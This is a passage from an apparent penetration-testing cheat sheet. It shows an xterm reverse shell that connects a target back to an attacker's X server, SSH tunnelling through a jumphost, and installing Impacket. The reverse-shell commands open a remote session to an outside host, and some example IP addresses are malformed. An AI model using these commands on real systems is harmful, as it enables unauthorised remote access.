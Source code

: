 xterm

One of the simplest forms of reverse shell is an xterm session. The following command should be run on the server. It will try to connect back to you (10.0.0.1) on TCP port 6001.

```
    xterm -display 10.0.0.1:1
```

To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001). One way to do this is with Xnest (to be run on your system):

```
    Xnest :1
```

your’ll need to authorise the target to connect to you (command also run on your host):

```
    xhost +targetip
```

### SSH Tunnels

Send data over ssh to port 9000 on target

```
    ssh -L 8090:localhost:9000 james@123.123.123
```

Send data over ssh to port 80 on target through jumphost

```
    ssh -A -t -p22 -L 8800:localhost:8800 james@123.001.123.321 -t ssh -L 8800:localhost:80 james@124.123.122
```

Start ssh using existing connections

```
    nano ~/.ssh/config
    ControlMaster auto
    ControlPath ~/.ssh/control:%h:%p:%r
```

### Impacket

Source: https://github.com/CoreSecurity/impacket/releases/tag/impacket_0_9_15

#### Install impacket on Windows

```
    git clone https://github.com/CoreSecurity/impacket.git
```

Download VC++ For Python 2.7 (Needed to compile some modules)

- https://www.microsoft.com/en-us/download/details.aspx?id=44266

Install necessary modules (You may need to install pip first)

```
    python -m pip install pycrypto pyasn1 pyOpenSSL pyReadline ldapdomaindump
```
